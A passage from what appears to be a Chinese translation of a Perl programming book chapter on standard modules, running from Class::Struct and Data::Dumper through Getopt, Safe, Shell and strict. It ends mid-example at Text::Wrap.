在 Perl 中支持数据结构的一种方法是使用 **Class::Struct**。我将创建一个示例，该示例将使用一个数据结构结构来展示这个过程是如何工作的。

假设你想跟踪各种杂货商品的名称和数量；你可以从用 **Class::Struct** 创建这样一个结构开始：

```
use Class::Struct;
struct( produce => {
        vegetable => item,
        fruit => item,
});
```

## produce（用户自定义类型）

在这里，我创建了一个名为 **produce** 的用户自定义类型，它本身由两个元素构成：**vegetable**（蔬菜）和 **fruit**（水果），每个元素实际上又是一个名为 **item** 的用户自定义类型。这些 **item** 类型只是存储了 **vegetable** 或 **fruit** 的名称和数量，如下所示：

```
struct( item => [
	name  => '$',
	number => '$',
]);
```

注意这里的语法；在此例中，`name` 和 `number` 都是标量，我用 `$` 符号表示。在数据结构中，你使用像这样的前缀引用符来表示你存储的元素类型——例如，要存储一个数组（实际上是对数组的引用），你需要使用 `@`。

现在，我可以创建一个 **produce** 类型的新对象：

```
my $grocery = new produce;
```

然后，我可以设置某个特定 **fruit** 的名称和数量：

```
$grocery->fruit->name('bananas');
$grocery->fruit->number(1000);
```

现在，我可以简单地通过 **$grocery->fruit->number** 和 **$grocery->fruit->name** 来引用这些值，就像这样：

```
print "Yes, we have ", $grocery->fruit->number, " ",
	$grocery->fruit->name, ".";
```

> 是的，我们有 1000 个香蕉。

通过这种方式，你可以像在 C 语言中一样构建相当复杂的数据结构。

## constant — 创建常量

编程正确性监督者说：“Perl 似乎不像 C 那样有任何对常量的内置支持。为什么呢？”“嗯，”你说道，“如果这对你是个问题，你总是可以使用 **constant** 模块。”

你可以使用 **constant** 模块在 Perl 中声明常量；看看这几个例子：

```
use constant FINAL_MEDIEVAL_YEAR => 1491;
use constant MONTH_OF_SUNDAYS    => 30 * 7;
use constant PI                  => 4 * atan2 1, 1;

print "Pi = " . PI;
```

> Pi = 3.14159265358979

注意，如果你尝试修改一个常量的值，比如这个例子，你会遇到麻烦：

```
PI = 3.14;
```

> 不能在 pi.pl 文件的第 7 行进行标量赋值时修改常量项，接近 "3.14;"
> 由于编译错误，pi.pl 的执行已中止。

| 相关解决方案 | 所在页 |
| --- | --- |
| 声明常量 | 57 |

## CreditCard — 检查信用卡号码

**CreditCard** 模块让你可以检查信用卡号码以确保其有效。（信用卡号码用校验和进行编码，信用卡机在尝试传输号码之前会检查其是否有效。）例如，如果你在网站上接受信用卡号码，这个模块会很有用。

## Cwd — 获取当前工作目录的路径

你可以通过使用 **Cwd** 模块来获取 Perl 当前使用的工作目录。（使用 **chdir** 来更改目录。）

在包含了 **Cwd** 模块后，你可以像这样获取当前工作目录：

```
use Cwd;
$dir = cwd;
print $dir;
```

> /home/steve/code4

| 相关解决方案 | 所在页 |
| --- | --- |
| chdir — 更改工作目录 | 588 |

## Data::Dumper — 显示结构化数据

新手程序员爬进你的办公室说：“这快把我逼疯了。”你问：“什么把你逼疯了，NP？”“嗯，”NP 说，“我有各种各样的数据结构，编写专门的代码来打印它们快让我崩溃了。”“嗯，”你说，“你试过 **Data::Dumper** 吗？”NP 精神一振，问道：“**Data::Dumper** 到底是什么？”

你可以使用 **Data::Dumper** 模块来打印从非常简单到非常复杂和自引用的数据结构。事实上，许多其他 Perl 模块自己也使用 **Data::Dumper** 来显示数据。

**Data::Dumper** 是一个相当复杂的模块，有几种不同的操作方式，但几个例子会让你体会到它的功能。例如，如果我有两个数组，只想打印它们，我可以使用 **Data::Dumper**。你使用 **Dump** 方法将数据转储到控制台，并传递你想要转储的变量列表，后跟一个指示你想要如何显示这些变量的列表。我使用 **Dump** 打印两个数组，就像这样：

```
use Data::Dumper;
$arrayref1 = [1, 2, 3];
$arrayref2 = [4, 5, 6];
print Data::Dumper->Dump([$arrayref1, $arrayref2], [arrayref1, arrayref2]);
```

```
$arrayref1 = [
              1,
              2,
              3
             ];
$arrayref2 = [
              4,
              5,
              6
             ];
```

> **注意：** 由于 Perl 中传递数组和哈希的方式，你应该传递数组和哈希的引用给 **Dump**，而不是数组和哈希本身。

你可以使用许多选项；例如，你可以在打印数组时同时打印数组索引，方法如下：

```
$array1 = [1, 2, 3];
$array2 = [4, 5, 6];
$Data::Dumper::Indent = 3;
print Data::Dumper->Dump([$arrayref1, $arrayref2], [arrayref1, arrayref2]);
```

```
$arrayref1 = [
              #0
              1,
              #1
              2,
              #2
              3
            ];
$arrayref2 = [
              #0
              4,
              #1
              5,
              #2
              6
            ];
```

你可以使用 **Data::Dumper** 打印非常复杂的数据结构。在下面的例子中，我有一个标量、一个哈希的引用、一个同时保存该标量和该哈希引用的数组的引用，并且该哈希本身又包含了该数组的引用。**Dump** 方法处理所有这些，就像这样：

```
use Data::Dumper;
$scalar = 0;
$hashref = {};
$arrayref = [$scalar, $hashref];
$hashref->{arrayref} = $arrayref;
print Data::Dumper->Dump([$arrayref, $hashref], [qw(arrayref hashref)]);
```

```
$arrayref = [
              '0',
              {
                'arrayref' => $arrayref
              }
            ];
$hashref = $arrayref->[1];
```

我甚至可以通过将 **$Data::Dumper::Deepcopy** 的值设置为 true 来进一步展开 **$hashref** 的条目，就像这样：

```
$Data::Dumper::Deepcopy = 1;
print Data::Dumper->Dump([$arrayref, $hashref], [qw(arrayref hashref)]);
```

```
$arrayref = [
              '0',
              {
                'arrayref' => $arrayref
              }
            ];
$hashref = {
              'arrayref' => [
                              '0',
                              $hashref
                            ]
            };
```

**Data::Dumper** 还能做更多事情，但这个描述让你对它能做的事情有了初步的了解。

> *提示：从 Perl v5.6.0 开始，**Data::Dumper** 支持一个 **Maxdepth** 设置，允许你避免深入过于复杂的数据结构。*

## Date::Calc — 加减日期和时间

新手程序员打电话给你，哭喊道：“救命！”你问问题出在哪里。“嗯，”NP 说，“大老板是 1960 年结婚的，现在我需要计算从那时起到现在有多少天。”“数着幸福的日子吗？”你问。“可能吧，”NP 说。“嗯，使用 **Date::Calc** 模块吧，”你说。

**Date::Calc** 实际上不是 Perl 的标准模块，所以你需要去 CPAN 获取它。（对于使用 Perl 包管理器 (PPM) 的 Windows 程序员也可用。）它非常有用，以至于许多程序员认为它应该随 Perl 一起提供。使用 **Date::Calc** 中的函数，你可以轻松地加减日期。

例如，**Add_Delta_Days** 让你将一个天数 **$delta_days** 添加到一个日期：

```
use Date::Calc qw(Add_Delta_Days);
($new_year, $new_month, $new_day) = Add_Delta_Days($year, $month, $day,
    $delta_days);
```

### Add_Delta_DHMS

**Add_Delta_DHMS** 让你为任何日期添加一个天、小时、分钟和秒的偏移量：

```
use Date::Calc qw(Add_Delta_DHMS);
($new_year, $new_month, $new_day, $new_hour, $new_minute, $new_second) =
Add_Delta_DHMS($year, $month, $day, $hour, $minute, $second,
    $days_offset, $hour_offset, $minute_offset, $second_offset);
```

### Delta_Days

**Delta_Days** 让你计算两个日期之间的天数：

```
use Date::Calc qw(Delta_Days);
$day_diff = Delta_Days($year1, $month1, $day1, $year2, $month2, $day2);
```

而 **Delta_DHMS** 让你计算两个日期和时间之间的差异：

```
use Date::Calc qw(Delta_DHMS);
($days, $hours, $minutes, $seconds) =
Delta_DHMS($early_year, $early_month, $early_day, $early_hour, $early_minute,
    $early_seconds, $later_year, $later_month, $later_day, $later_hour,
    $later_minute, $later_seconds);
```

在以下情况中，我使用 **Add_Delta_DHMS** 将 2001 年 12 月 31 日 23:59:59 加上一秒，发现现在已经是 2002 年了：

```
use Date::Calc qw(Add_Delta_DHMS);
($year, $month, $day, $hour, $minute, $second) =
Add_Delta_DHMS(2001, 12, 31, 23, 59, 59, 0, 0, 0, 1);
print "It's $year! Happy New Year!";
```

> 是 2002 年！新年快乐！

## diagnostics — 打印完整诊断信息

**diagnostics** 模块在代码运行时会打印大量的诊断消息（并且它也打开了编译器警告的 **-w** 开关）。在这个例子中，请注意这两行简单的代码生成了多少行诊断信息。记住，**(W)** 表示某事是警告，**(F)** 表示致命错误：

## 诊断工具

```perl
use diagnostics;
print NOT_A_FILEHANDLE "Hello!\n";
print $never_declared/0;
```

Name "main::NOT_A_FILEHANDLE" used only once: possible typo at diag.pl line 3 (#1)

(W) 排版错误常表现为唯一的变量名。如果你有充分理由使用一个独特的名称，那么只需以某种方式再次提及它，即可抑制此消息。`use vars` 语句正是为此目的而提供的。

Filehandle main::NOT_A_FILEHANDLE never opened at diag.pl line 3 (#2)

(W) 试图在一个从未初始化过的文件句柄上进行I/O操作。

你需要调用 `open()` 或 `socket()`，或者调用 `FileHandle` 包的构造函数。

Name "main::never_declared" used only once: possible typo at diag.pl line 4 (#1)

(W) 排版错误常表现为唯一的变量名。如果你有充分理由使用一个独特的名称，那么只需以某种方式再次提及它，即可抑制此消息。`use vars` 语句正是为此目的而提供的。

Use of uninitialized value at diag.pl line 4 (#2)

(W) 使用了一个未定义的值，就好像它已经被定义过一样。它被解释为一个空字符串 `""` 或 0，但这可能是一个错误。要抑制此警告，请为你的变量赋一个初始值。

Illegal division by zero at diag.pl line 4 (#3)

(F) 你试图将一个数除以 0。这可能是你的逻辑有误，或者你需要加入一个条件判断来防止无意义的输入。

Uncaught exception from user code:
    Illegal division by zero at diag.pl line 4.

仿佛这还不够，你可以将 **-verbose** 开关与 **diagnostics** 语句一起使用，让该模块打印出一整段介绍，告诉你它的作用（我不会在此处复述，因为它相当长）：

```perl
use diagnostics -verbose;
```

## 英文模块为预定义变量使用英文名称

> “唉，格式化页面剩余行数的预定义变量是什么来着？是 **$−** 还是 **$=?**” 新手程序员问道。“是 **$−**，”你回答。“天哪，”新手程序员说，“我总是记混它们。” “嗯，为什么不使用 **English** 模块呢？”你说。

许多预定义变量都有对应的英文名称，如果你包含了 **English** 模块，就可以使用它们：

```perl
use English;
```

使用此模块意味着你可以使用如表 14.4 所示的预定义变量的英文等价物。（注意，有些预定义变量有不止一个英文等价物。）

**表 14.4** 预定义变量的英文等价物。

| 变量 | 英文等价物 |
|---|---|
| $− | $FORMAT_LINES_LEFT |
| $' | $POSTMATCH |
| $! | $OS_ERROR, $ERRNO |
| $" | $LIST_SEPARATOR |
| $# | $OFMT |
| $$ | $PROCESS_ID, $PID |
| $% | $FORMAT_PAGE_NUMBER |
| $& | $MATCH |
| $( | $REAL_GROUP_ID, $GID |
| $) | $EFFECTIVE_GROUP_ID, $EGID |
| $* | $MULTILINE_MATCHING |
| $, | $OUTPUT_FIELD_SEPARATOR, $OFS |
| $. | $INPUT_LINE_NUMBER, $NR |
| $/ | $INPUT_RECORD_SEPARATOR, $RS |
| $: | $FORMAT_LINE_BREAK_CHARACTERS |
| $; | $SUBSCRIPT_SEPARATOR, $SUBSEP |
| $? | $CHILD_ERROR |
| $@ | $EVAL_ERROR |
| $\ | $OUTPUT_RECORD_SEPARATOR, $ORS |
| $] | $PERL_VERSION |
| $^ | $FORMAT_TOP_NAME |
| $^A | $ACCUMULATOR |
| $^C | $COMPILING |
| $^D | $DEBUGGING |
| $^E | $EXTENDED_OS_ERROR |
| $^F | $SYSTEM_FD_MAX |
| $^I | $INPLACE_EDIT |
| $^L | $FORMAT_FORMFEED |
| $^O | $OSNAME |
| $^P | $PERLDB |
| $^T | $BASETIME |
| $^V | $PERL_VERSION |
| $^W | $WARNING |
| $^X | $EXECUTABLE_NAME |
| $_ | $ARG |
| $` | $PREMATCH |
| $| | $OUTPUT_AUTOFLUSH |
| $~ | $FORMAT_NAME |
| $+ | $LAST_PAREN_MATCH |
| $< | $REAL_USER_ID, $UID |
| $= | $FORMAT_LINES_PER_PAGE |
| $> | $EFFECTIVE_USER_ID, $EUID |
| $0 | $PROGRAM_NAME |

Perl 的 **English.pm** 模块实际上使用类型别名将英文名称别名为预定义变量，类似这样：***ARG = *_:**。在下面的例子中，我使用了模式匹配预定义变量 **$&**，它保存了当前的模式匹配结果，如下所示：

```perl
$text = 'This is the time.';
$text =~ /time/;
print "Matched: \"$&\".\\n";
```

> *Matched: "time".*

如果你不喜欢代码中 **$&** 的样子，你可以像这样将其更改为 **$MATCH**：

```perl
use English;
$text = 'This is the time.';
$text =~ /time/;
print "Matched: \"$MATCH\".\\n";
```

> *Matched: "time".*

从 Perl v5.6.0 开始，**$PERL_VERSION** 对应 **$^V**，而不是 **$]**，这是因为 Perl 版本编号系统发生了变化。

| 相关解决方案： | 详见页码： |
| :----------------- | :------------- |
| **$]** Perl 版本 | 434 |
| **$^V** 作为字符串的 Perl 版本 | 442 |

## Env 导入环境变量

新手程序员问道，“存储环境变量的哈希又叫什么来着？” “是 **%ENV**，”你回答。“嗯，”新手程序员说，“我总是记不住。” “好吧，”你说，“你可以直接使用 **Env** 模块将 **%ENV** 中的条目导入到你的程序中，让它们变成变量，这样你就完全不需要再访问 **%ENV** 了。” 新手程序员说：“再跟我多说说。”

Perl 将环境变量（在 Unix 和 Windows 中都存在）保存在 **%ENV** 哈希中。如果你包含了 **Env** 模块：

```perl
use Env;
```

那么这个模块会导入 **%ENV** 中的所有符号（即 **keys %ENV**），将它们绑定到你可以使用的变量上（带有适当的前缀解引用符）。在下面的例子中，我使用变量 **$PATH** 打印 Unix 下的当前搜索路径：

```perl
use Env;
$path2 = $PATH;
$path2 =~ tr/:/\n/;
print $path2;
```
.
/usr/bin
/usr/ucb
/usr/local/bin
/etc

注意，我在按冒号分割之前，先复制了 **$PATH** 的内容。（Unix 的 **PATH** 变量使用冒号作为字段分隔符；MS-DOS 使用分号。）我这样做是因为我想使用该变量内容的破坏性副本，而不是直接更改 **$PATH** 的内容。如果你给这些被绑定的变量赋值，你就会更改存储在环境中的值。

你也可以像这样只导入少数几个选定的变量：

```perl
use Env qw(PATH HOME);
$path2 = $PATH;
$path2 =~ tr/:/\n/;
print $path2;
```
.
/usr/bin
/usr/ucb
/usr/local/bin
/etc

要从环境中移除一个被绑定的环境变量，你可以对其使用 **undef** 函数（例如 **undef $PATH**）。

| 相关解决方案： | 详见页码： |
| --- | --- |
| %ENV 环境变量 | 455 |

## ExtUtils 对 Perl 扩展的支持

你可以为 Perl 编写扩展，**ExtUtils** 模块为此提供了实用工具。你可以使用以下 **ExtUtils** 模块：

- **ExtUtils::Command**——在 **Makefile** 中提供 Unix 命令的工具
- **ExtUtils::Embed**——支持将 Perl 嵌入到 C 和 C++ 应用程序中的工具
- **ExtUtils::Install**——安装文件的工具
- **ExtUtils::Installed**——管理已安装模块的工具
- **ExtUtils::Liblist**——指定要使用的库的工具
- **ExtUtils::MakeMaker**——创建扩展 **Makefile** 的工具
- **ExtUtils::Manifest**——编写 **MANIFEST** 文件的工具
- **ExtUtils::Miniperl**——perlmain.c 的 C 代码
- **ExtUtils::Mkbootstrap**——创建引导文件的工具
- **ExtUtils::Mksymlists**——为动态扩展创建链接器选项文件的工具
- **ExtUtils::MM_OS2**——覆盖 **ExtUtils::MakeMaker** 行为的工具
- **ExtUtils::MM_Unix**——**ExtUtils::MakeMaker** 使用的工具
- **ExtUtils::MM_VMS**——覆盖 **ExtUtils::MakeMaker** 行为的工具
- **ExtUtils::MM_Win32**——覆盖 **ExtUtils::MakeMaker** 行为的工具
- **ExtUtils::Packlist**——管理 **packlist** 文件的工具
- **ExtUtils::testlib**——将目录添加到 **@INC** 的工具

## File::Compare 比较文件

“嗯，”新手程序员说，“我上传了两个大小相同的文件，所以它们的创建日期也一样。但是，我必须知道它们的内容是相同还是不同。” 你问道：“它们有多长？” “长度？”新手程序员说。“好吧，使用 **File::Compare**，”你说。

你可以使用 **File::Compare** 模块中的 **compare** 函数来比较两个文件，而无需显式打开任何一个文件。如果文件逐字节相等，**compare** 函数返回 0；如果不相等则返回 1；如果发生错误（例如 **compare** 找不到文件）则返回 –1。


请特别注意，**compare** 函数返回的值可能与你预期的相反：如果文件*相等*，它返回 false（即 0）；如果文件*不相等*，它返回 true（1）。

在此示例中，我使用 **compare** 函数比较两个文件：

```
use File::Compare;
if (compare("file1.txt","file2.txt")) {
    print "Those files are not equal.\n";
} else {
    print "Those files are equal.\n";
}
```

> *Those files are equal.*

| 相关解决方案： | 所在页码： |
|:---|:---|
| **copy** 复制文件 | 586 |

## File::Find 搜索文件目录

> "哎呀，我的目录结构变得相当复杂了。自从我有了19级目录，就再也找不到需要的文件了，"这位新手程序员说。你问道："谁建议你用19级目录的？"新手程序员说："编程正确性沙皇。"你说："嗯，最好使用 **File::Find**。"

使用 **File::Find** 模块中的 **find** 函数，你可以根据给定条件查找文件。你需要向此函数传递一个子程序的引用和一个目录列表。**find** 函数会对这些目录及其子目录下的每个文件执行子程序中的代码。

在子程序内部，**$_** 将保存当前文件的名称，**$File::Find::name** 将保存包含完整路径的当前文件名，而 **$File::Find::dir** 将保存当前目录的名称（**find** 函数会移动到每个新目录进行搜索）。你也可以通过设置 **$File::Find::prune** 来限制 **find** 函数是否会向下进入某个目录。

考虑这个例子；在此例中，我将处理一组包含两个子目录（其中一个子目录本身包含一个文件）的文件：

- a.pl
- file1.txt
- file2.txt
- b.pl
- c.pl
- dir1
  - file.txt
- dir2

首先，我将列出此目录结构中的所有文件。为此，我将向 **find** 函数传递一个匿名子程序的引用来打印 **$File::Find::name**，以及一个仅包含当前目录（即 '.'）的单元素目录列表：

```
use File::Find;
find sub {print "Here's a file: $File::Find::name\n"}, '.';
```

```
Here's a file: .
Here's a file: ./a.pl
Here's a file: ./file1.txt
Here's a file: ./file2.txt
Here's a file: ./b.pl
Here's a file: ./c.pl
Here's a file: ./dir1
Here's a file: ./dir1/file.txt
Here's a file: ./dir2
```

请注意，**find** 找到了所有文件，包括目录。如果你想省略目录，可以使用 **-d** 文件测试运算符来检查它们（回想一下 **find** 函数在子程序中将 $_ 设置为当前文件的名称，因此我可以不带任何参数使用 **-d**），如下所示：

```
use File::Find;
find sub {print "Here's a file: $File::Find::name\n" if !-d}, '.';
```

```
Here's a file: ./a.pl
Here's a file: ./file1.txt
Here's a file: ./file2.txt
Here's a file: ./b.pl
Here's a file: ./c.pl
Here's a file: ./dir1/file.txt
```

并且，你可以使用 **-T** 文件测试仅列出文本文件：

```
find sub {print "Here's a text file: $File::Find::name\n" if -T}, '.';
```

```
Here's a text file: ./a.pl
Here's a text file: ./file1.txt
Here's a text file: ./file2.txt
Here's a text file: ./b.pl
Here's a text file: ./c.pl
Here's a text file: ./dir1/file.txt
```

你也可以在首次遇到某个目录时，通过将 **$File::Find::prune** 设置为 true 来告诉 **find** 函数不要检查该目录，如下面的例子，我禁止搜索检查 **dir1** 目录：

```
use File::Find;
find sub {
    $File::Find::prune = 1 if /dir1/;
    print "Here's a text file: $File::Find::name\n" if -T
    },
    '.';
```

```
Here's a text file: ./a.pl
Here's a text file: ./file1.txt
Here's a text file: ./file2.txt
Here's a text file: ./b.pl
Here's a text file: ./c.pl
```

如你所见，**$File::Find** 是一个强大的目录管理工具。

## FileCache 维护多个已打开的输出文件

大多数操作系统允许一个进程在任何时间只能打开一定数量的输出文件，但当你使用 **FileCache** 模块的 **cacheout** 函数时，该模块为你提供了一种解决方案。**cacheout** 函数实际上在后台自动关闭和打开文件，因此对于你的代码来说，看起来所有文件都是同时打开的。

你使用 **cacheout** 来打开一个文件句柄，通过传递文件名（包括路径）来实现，如下所示：

```
use FileCache;
cacheout $name;
```

如果 **cacheout** 以前从未使用过指定的文件，且该文件已存在，**cacheout** 会将其截断为零长度并覆盖写入。如果它以前使用过该文件，**cacheout** 则会追加到文件末尾。现在，你可以使用 **print** 向输出文件发送数据：

```
use FileCache;
cacheout $name;
print $name $output_data;
```

请注意，每次使用文件句柄时，你都必须像此代码中那样调用 **cacheout**，以便 **cacheout** 可以在必要时重新打开该文件句柄。

> **提示：** **cacheout** 函数会尝试自行确定可能的最大已打开输出文件句柄数，但有时它无法做到。在这种情况下，明智的做法是你自己设置 **$FileCache::maxopen** 变量中的数量。（最好的主意是将此值设置为比实际值小几，这样就不可能出问题。）

## GetOpt 解释命令行开关

"大老板在找我，"新手程序员说。"为什么？"你问。"嗯，"新手程序员说，"我应该给我的程序添加更多选项，并通过命令行开关来支持它们。"你说："没问题，你可以使用 **GetOpt** 模块。"新手程序员说："只有一个问题，什么是命令行开关？"你说："哎呀。"

你可以使用 **Getopt** 模块来扫描命令行——即 **@ARGV**——查找命令行开关，如果开关是单字符的，前面用连字符，如果开关本身是多字符的，则（通常）用两个连字符。以下示例展示了如何使用它们：

```
%perl args.pl -NHello!
%perl greeting.pl --german
```

> **提示：** 单字符开关与其参数之间不需要空格。

你可以使用 **GetOpt::Std** 来实现单字符开关，使用 **GetOpt::Long** 来实现多字符开关。我将在这里分别介绍它们。

> **提示：** 当你调用 **Getopt** 函数时，它们会破坏 **@ARGV** 的内容，因此你可能需要考虑仅在自己用完 **@ARGV** 后再调用它们，或者在代码中创建自己的开关处理逻辑。

### 单字符开关——GetOpt::Std

你可以使用 **GetOpt::Std** 来实现单字符开关。例如，假设你想在脚本中启用三个命令行开关：**-p**、**-M** 和 **-N**。你可以通过使用 **getopt** 函数来获取这些开关的设置，该函数会扫描 **@ARGV** 查找开关，如下所示：

```
use Getopt::Std;
getopt('pMN');
```

当你对像 **-p** 这样的开关使用 **getopt** 时，会定义一个相应的变量——**$opt_p**——它保存开关的设置。在此例中，我将显示各个允许开关的设置：

```
use Getopt::Std;
getopt('pMN');
print "-p switch: $opt_p, -M switch: $opt_M, -N switch: $opt_N";
```

现在，当你调用此脚本并使用各个开关传递值时，它会显示你传递的值：

```
%perl args.pl -p5 -M 6 -NHello!
```

*-p switch: 5, -M switch: 6, -N switch: Hello!*

### 多字符开关

你也可以使用 **GetOpt::Long** 模块来支持多字符开关（例如，**--german**）；此类选项通常用两个连字符给出，而不是一个。

你使用 **GetOpt::Long** 模块的 **GetOptions** 函数来返回各个选项的设置。你向此函数传递成对的值；第一个值是多字符开关，第二个值是你想要与该开关关联的变量的引用。

现在，考虑这个例子；在此例中，我将在一个显示问候语的程序 greeting.pl 中支持两个开关，**--german** 和 **--french**：

```
use Getopt::Long;
GetOptions("german"  => \$german,
           "french"  => \$french);
if ($german) {
    print "Guten Tag!\n";
}
if ($french) {
    print "Bonjour!\n";
}
if (!$german && !$french) {
    print "Hello!\n";
}
```

这里，如果在命令行上指定了这些选项，变量 **$german** 和 **$french** 将为 true，否则为 false。


要使用此代码，你可以像这样指定一个选项开关：

```
%perl greeting.pl --german
```

*Guten Tag!*

或者，你可以像这样指定两个：

```
%perl greeting.pl --german --french
```

*Guten Tag!*
*Bonjour!*

你也可以一个都不指定，在这种情况下程序将显示其默认问候语：

```
%perl greeting.pl
```

*Hello!*

你还可以向多字符开关传递参数，只需在开关后跟上 **=** 和参数值即可。在此示例中，我通过将开关名以 **"file=s"** 的形式传递给 **GetOptions**，表明 **--file** 开关接受一个字符串参数：

```
use Getopt::Long;
GetOptions("file=s" => \$file);
if ($file) {
    print "File name: $file\n";
}
```

现在，当用户输入文件名时，代码将显示该名称：

```
%perl filer.pl --file=file.txt
```

*File name: file.txt*

**=s** 设置只是允许你指定开关可接受的值类型的选项之一；以下是所有可能的设置及其含义：

- **=s**—接受一个必需的字符串参数。（该字符串被赋值给选项变量。）
- **:s**—接受一个可选的字符串参数。（该字符串被赋值给选项变量。）
- **=i**—接受一个必需的整数参数。（该整数可以以 - 开头表示负值，被赋值给选项变量。）
- **:i**—接受一个可选的整数参数。（该整数可以以 - 开头表示负值，被赋值给选项变量。）
- **=f**—接受一个必需的浮点数参数。（该浮点数可以以 - 开头表示负值，被赋值给选项变量。）
- **:f**—接受一个可选的浮点数参数。（该浮点数可以以 - 开头表示负值，被赋值给选项变量。）
- **!**—不接受参数，可以通过在其前加上 'no' 来取反。例如，"**bananas!**" 允许 **--bananas**（将其变量设为 1）和 **--nobananas**（将其变量设为 0）。
- **+**—不接受参数，每次出现在命令行上时其值将递增 1。（如果选项变量不是标量，则忽略此说明符。）

单独的一个连字符 - 被视为一个开关，其对应的开关值为空字符串；而单独的两个连字符 -- 表示开关列表的结束（使用双连字符是可选的）。

## locale 启用与区域设置相关的操作

> "我们开辟了新市场，"大老板说，"我们将把你的程序运往德国。" "嗯，"你说，"我可以使用 **locale** 编译指令来使用当地的小数点等值。" 老板问，"他们那里用不同的小数点？"

**locale** 编译指令为那些对区域设置敏感的操作启用 POSIX 区域设置。此编译指令会影响排序顺序以及用作小数点的字符（例如，在德国，小数点是逗号）。要关闭区域设置敏感性，请使用 'no locale'。

在此示例中，我使用区域设置定义的排序顺序对数组进行排序：

```
use locale;
@sorted = sort @unsorted;
```

## Safe 创建安全的代码隔间

技术支持的人员打电话来说，"关于你写的那个允许用户输入自己的 Perl 代码的 Perl 解释器。我们认为这是一个安全隐患。" "为什么？"你问。 "因为，"他们说，"用户可以用他们输入的代码做几乎任何事情。" "好的，"你说，"我会使用 **Safe** 模块来限制他们能做的事情。"

**Safe** 模块允许你通过创建与程序其余部分隔离的*代码隔间*来安全地执行代码。你可以使用 **permit** 方法指定在隔间中允许执行哪些函数。

由于安全问题在当今变得如此重要，**Safe** 模块变得非常庞大，包含许多内置方法。在以下示例中，我创建一个新的安全代码隔间，允许在该隔间中使用 **print** 语句，并使用 **Safe** 模块的 **reval** 方法在该隔间中运行一些代码：

```
use Safe;
$safeccompartment = new Safe;
$safeccompartment->permit(qw(print));
$result = $safeccompartment->reval("print \\"Hello!\\";");
```

> Hello!

## Shell 将 Shell 命令用作子程序

你可以使用 **Shell** 模块将 Shell 命令作为子程序在代码中运行，如果你经常使用此类命令，这会很方便。在以下示例中，我将 Unix **uptime** 命令作为子程序来调用：

```
use Shell;
$uptime = uptime();
print $uptime;
```

> 2:16pm  up 13 days, 16:33,  4 users,  load average: 0.27, 0.14, 0.00

你也可以在 MS-DOS 中使用 **Shell** 模块，如下所示，我将 **dir** 命令作为子程序来获取目录列表：

```
use Shell;
$dir = dir();
print $dir;
```

```
Volume in drive C has no label
Volume Serial Number is 3741-1402
Directory of C:\perlbook\code

.              <DIR>       04-16-00 11:14a .
..             <DIR>       04-16-00 11:14a ..
A       PL             168  04-16-00 11:14a A.PL
B       PL             150  04-16-00 11:14a B.PL
C       PL             120  04-16-00 11:14a C.PL
```

你也可以像这样向 Shell 命令传递参数，其中我使用 Unix **cat** 命令来显示特定文件的内容：

```
use Shell;
$text = cat("file.txt");
print $text;
```

```
Here's the text!
```

## strict 约束编码规范

> 我担心新手程序员，编程正确性专员说道。为什么？你问。新手的一些代码相当草率，编程正确性专员说。好吧，你说，你可以要求新手使用 **strict** 模块。很好，编程正确性专员说，也许每个人都应该开始使用它，因为没有人的代码完全达标。嗯，你说。

你可以使用 **strict** 模块的三种版本中的任何一种：**use strict 'refs'**、**use strict 'vars'** 和 **use strict 'subs'**。下面我将逐一介绍。

### use strict 'refs'

**use strict 'refs'** 的用法会在你使用符号引用时引发运行时错误。像这样的硬引用是没有问题的：

```
use strict 'refs';
$variable = 5;
```

# 第14章 标准模块

```perl
$reference = \$variable;
print $$reference;
```

5

然而，符号引用将无法工作：

```perl
use strict 'refs';
$variable = 5;
$reference = "variable";
print $$reference;
```

> 在 symbolic.pl 第4行，当启用 "strict refs" 时，不能使用字符串 ("variable") 作为标量引用。

## use strict 'vars'

**use strict 'vars'** 的用法会在你使用未经 **use vars** 声明、未经 **my** 定位或未经其包名完全限定的变量时产生编译时错误。你可以毫无问题地使用通过 **my** 声明的变量：

```perl
use strict 'vars';
my $variable = 1;
print $variable;
```

1

但是，请注意，使用 **local** 是不够的：

```perl
use strict 'vars';
local $variable = 1;
print $variable;
```

> 全局符号 "$variable" 需要显式包名，位于 local.pl 第2行。
local.pl 因编译错误而中止执行。

## use strict 'subs'

**use strict 'subs'** 的用法会在你使用不是子程序名的裸字时产生编译时错误（除非裸字出现在花括号内或位于 **=>** 双字符运算符的左侧）。

在这里，如果裸字是子程序的名称，你可以使用它：

```perl
use strict 'subs';
sub handler
{
    print "I was interrupted.\n";
}

$SIG{INT} = \&handler;
```

然而，裸字的其他用法将无法工作：

```perl
use strict 'subs';
$hash{'this'} = that;
```

*在 g.pl 第3行，当启用 "strict subs" 时，不允许使用裸字 "that"。
g.pl 因编译错误而中止执行。*

要关闭 **strict**，你可以使用 **no** 关键字，如下所示：

```perl
no strict 'vars';
```

要同时启用所有三个级别的语法检查，请单独使用 **strict** 模块：

```perl
use strict;
```

## Text::Abbrev 查找唯一缩写

新手程序员问：“我如何能让我的程序更用户友好？”
“嗯，你可以让用户输入所有文本命令的缩写，只要这些缩写是唯一的，这样它们就只能代表一个命令，”你说。
“这是个好主意。我该怎么做？”NP（新手程序员）问。
你说：“使用 **Text::Abbrev** 创建一个唯一缩写的哈希表，然后只需使用用户输入的命令作为该哈希表的键。”

你可以通过 **Text::Abbrev** 模块的 **abbrev** 方法创建一个传递给它的单词的唯一缩写哈希表，像这样：

```perl
use Text::Abbrev;
%hash = abbrev qw(Now is the time);
foreach $key (keys %hash) {
    print "$key => $hash{$key}\n";
}
```

```
the => the
Now => Now
i => is
tim => time
is => is
th => the
No => Now
ti => time
N => Now
time => time
```

如果你传递给 **abbrev** 的单词是用户可以输入的命令，那么拥有一个包含所有可能唯一缩写的哈希表会非常有帮助。只需使用用户输入的内容作为哈希表的键，关联的值就是实际的、未缩写的命令。

## Text::Tabs 在文本中使用制表符

你可以使用 **Text::Tabs** 模块的 **expand** 函数展开字符串中的制表符。在此示例中，我将制表位设置为八个字符，并在将字符串中的制表符展开为空格后打印它：

```perl
use Text::Tabs;
$tabstop = 8;
print expand("Hello\tthere!");
```

> *Hello   there!*

## Text::Wrap 换行文本

你可以使用 **Text::Wrap** 模块的 **wrap** 函数对过长而无法在单行中显示的文本进行换行。你将文本要使用的初始制表符（例如在段落缩进时）传递给此函数，后跟你希望用于其他行的后续制表符，以及要换行的文本。你也可以通过在 **$tabstop** 中设置值并在 **$column** 中设置列宽来指定制表符长度。

在下一个示例中，我在一个12字符宽的列中打印一个长字符串，不使用任何制表符：

```perl
use Text::Wrap qw(wrap $columns);
$columns = 12;
